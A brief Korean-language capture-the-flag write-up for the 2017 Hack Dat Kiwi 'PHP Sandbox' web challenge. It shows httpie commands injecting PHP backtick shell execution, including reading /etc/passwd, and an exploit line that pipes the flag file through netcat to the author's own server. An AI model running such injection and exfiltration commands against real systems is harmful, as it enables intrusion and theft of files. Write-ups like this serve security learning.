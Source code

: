 # [2017_Hack_Dat_Kiwi] \[Web] PHP Sandbox

## Analysis

(서버가 닫혀 있어서 로그와 기억을 기반으로 작성하겠습니다.)

```
http -f POST http://7a0567.2017.hack.dat.kiwi/experimental/sandbox/ code='<?php echo `ls`?>'
```

```
http -f POST http://7a0567.2017.hack.dat.kiwi/experimental/sandbox/ code='<?php echo `cat /etc/passwd`?>'
```

위와 같은 shell command를 입력했을 때, output이 나오진 않았지만 output의 length가 계속적으로 변한다는 점을 발견했습니다. 이를 통해 내부적으로는 command가 먹히지만 output만 출력해주지 않는 방식이라고 생각했습니다.

## Exploit

```
http -f POST http://7a0567.2017.hack.dat.kiwi/experimental/sandbox/ code='<?php echo `cat /var/www/html/flag.txt | nc myserver.addr 9999`?>'
```

flag.txt 파일의 위치를 찾아서 제 서버로 reverse connect시켜서 플래그를 읽어왔습니다.